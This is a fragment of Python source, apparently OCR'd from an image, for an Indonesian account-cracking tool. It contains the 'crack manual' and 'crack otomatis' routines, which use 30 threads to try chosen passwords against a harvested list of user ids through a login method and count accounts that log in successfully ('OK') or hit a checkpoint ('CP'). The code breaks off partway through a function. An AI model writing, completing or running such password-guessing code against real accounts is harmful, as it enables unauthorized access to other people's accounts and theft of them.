 		

		###----------[ SANDI OTOMATIS ]---------- ###

		else:

			self.otomatis()

		

	###----------[ CRACK MANUAL ]---------- ###

	def manual(self,pw):

		global prog,des

		prog = Progress(SpinnerColumn('clock'),TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'),TimeElapsedColumn())

		des = prog.add_task('',total=len(tampung))

		with prog:

			with ThreadPoolExecutor(max_workers=30) as fall:

				self.simpan_hasil()

				for data in tampung:

					user = data.split("<=>")[0]

					nama = data.split("<=>")[1]

					pwx = pw

					fall.submit(self.metode_api,user,pwx)

		prints(Panel(f"""{P2}berhasil crack total {len(tampung)} id, dengan hasil OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}""",width=80,padding=(0,8),style=f"{color_panel}"))

		sys.exit()

						

	###----------[ CRACK OTOMATIS ]---------- ###

	def otomatis(self):

		global prog,des

		prog = Progress(TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'),TimeElapsedColumn())

		des = prog.add_task('',total=len(tampung))

		with prog:

			with ThreadPoolExecutor(max_workers=30) as fall:

				self.simpan_hasil()

				for data in tampung:

					try:

						pwx = []
